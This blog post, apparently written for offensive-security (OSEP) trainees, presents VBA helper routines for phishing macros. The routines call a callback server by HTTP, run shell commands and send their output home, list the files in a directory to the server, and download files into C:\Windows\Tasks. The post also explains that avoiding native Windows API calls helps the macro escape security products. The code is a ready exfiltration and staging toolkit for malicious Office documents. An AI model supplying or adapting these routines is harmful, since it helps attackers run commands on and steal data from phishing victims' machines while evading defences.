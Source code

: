 ```yaml
---
title: "Don't Go Phishing Blind, Watch While RunTime"
date: 2021-12-04T11:25:46Z
categories: ["Programming", "Security"]
tags: ["OSEP", "PEN300", "VBA", "VBS", "HTA", "HTTP"]
---
```


Raise your hand if you crafted well your payload and the payload worked well in your lab machines but in the real scenario you're not receiving the callback! I guess all of us at some point have experienced this.

To solve this I wrote a simple and yet effective set of functions that allow us to see what going on while the runtime of our script.

The first function/subroutine, which I called hello simply sends an GET request to a specified server.

```VB.net
Sub Hello(message)
	On Error GoTo Done
	Dim MyRequest As Object
	Set MyRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
	MyRequest.Open "GET", _
	"http://127.0.0.1/" & message
	' Send Request.
	MyRequest.Send
	Set MyRequest = Nothing
	Done:
		Exit Sub
End Sub
```

This is the main important one, since we are relying on the HTTP protocol to call home after executing an action.

The second important one is ShellRun, this function run a system command and returns the captured output of the command.

```VB.net
Function ShellRun(sCmd As String) As String
	'Run a shell command, returning the output as a string
	Dim oShell As Object
	Set oShell = CreateObject("WScript.Shell")

	'run command
	Dim oExec As Object
	Dim oOutput As Object
	Set oExec = oShell.Exec(sCmd)
	Set oOutput = oExec.StdOut

	'handle the results as they are written to and read from the StdOut object
	Dim s As String
	Dim sLine As String
	While Not oOutput.AtEndOfStream
		sLine = oOutput.ReadLine
		If sLine <> "" Then s = s & sLine & vbCrLf
	Wend

	ShellRun = s
End Function
```

In conjunction with Hello, this gives us a visibility of what is going on while the runtime of our phishing script.

```VB.net
Hello (ShellRun("ping google.com"))
```

Bonus:

One of the other helpers, I wrote is LoopThroughFiles() this print the content of the provider directory.

```VB.net
Sub LoopThroughFiles(path)
	On Error GoTo Done
	Dim oFSO As Object
	Dim oFolder As Object
	Dim oFile As Object
	Dim i As Integer

	Set oFSO = CreateObject("Scripting.FileSystemObject")
	Set oFolder = oFSO.GetFolder(path)

	For Each oFile In oFolder.Files
	Hello (oFile.Name)
	i = i + 1
	Next oFile
	Done:
		Exit Sub
End Sub
```

The subroutine relies on Hello subroutine, this could be used as shown below:

```VB.net
LoopThroughFiles ("C:\Windows\Tasks")
```

I will finish this post with an extra subroutine that download text files, no binary files.

```VB.net
Sub WantMe(pie)
	Dim myURL As String
	myURL = "http://127.0.0.1/" & pie

	Dim WinHttpReq As Object
	Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
	WinHttpReq.Open "GET", myURL, False, Null, Null
	WinHttpReq.Send

	If WinHttpReq.Status = 200 Then
		Set oStream = CreateObject("ADODB.Stream")
		oStream.Open
		oStream.Type = 1
		oStream.Write WinHttpReq.responseBody
		oStream.SaveToFile "C:\Windows\Tasks\" & pie, 2 ' 1 = no overwrite, 2 = overwrite
		oStream.Close
	End If
End Sub
```

Nothing special really here, just a set of function helpers to facilitate things, if you noticed we have not used native Windows API and that's for a reason and the reason for that is portability of the code (few changes) when porting it VBS/HTA, also using native Windows API in Macro could be treated as a red flag by a security product.

Thanks for ready!
